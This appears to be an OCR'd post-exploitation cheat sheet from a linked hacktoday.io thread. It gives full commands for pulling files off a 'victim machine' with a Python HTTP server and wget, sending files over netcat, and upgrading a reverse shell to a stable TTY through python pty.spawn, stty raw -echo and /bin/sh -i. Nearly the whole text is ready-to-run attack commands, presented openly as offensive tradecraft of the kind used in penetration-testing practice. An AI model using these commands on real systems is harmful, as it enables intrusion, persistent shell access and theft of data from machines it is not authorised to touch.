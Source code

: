 
## Download files from target machine ##################################
(>>https://www.hacktoday.io/t/transfer-files-post-exploitation-cheatsheet/2632<<)

# Simple Server HTTP - This method is the same as it is to upload a file but the other way around. In this case the victim machine must have python to run the simple server. We have to take into account that we will not have permits to lift any port. We could also move our file to the web server folder if, for example, it has the apache running, although for that we should have permissions.

Victim machine command: -> python -m SimpleHTTPServer 8080
Attacking machine command: -> wget http://TARGET_IP:8080/FiletoDownload

# Netcat - We will also use the netcat tool in reverse order to upload the file to the victim machine. It is important to take into account the permits on the ports to be used.

Destination machine command: -> nc -l -p 7555 > myfile.txt
Source machine command:     ->  nc 10.1.1.2 7555 < myfile.txt



### Spawning a TTY Stable Shell ##################################

# execute on victim machine  
/usr/bin/script -qc /bin/bash /dev/null 
 
# using python bash
on reverse shell terminal, enter the following command -> python -c "import pty; pty.spawn('/bin/bash')" 
on same terminal with reverse shell hit ->  ctrl+Z 
on same terminal with reverse shell enter -> stty raw -echo 
on same terminal with reverse shell enter -> fg  (we will not be able to see this command while typing, the fg shell command continues a stopped job by running it in the foreground)
on same terminal with reverse shell enter -> export TERM=xterm  (we will not be able to see this command while typing)
we should now have a stable shell on our target 

# using echo
echo os.system('/bin/bash')

# using sh
/bin/sh -i
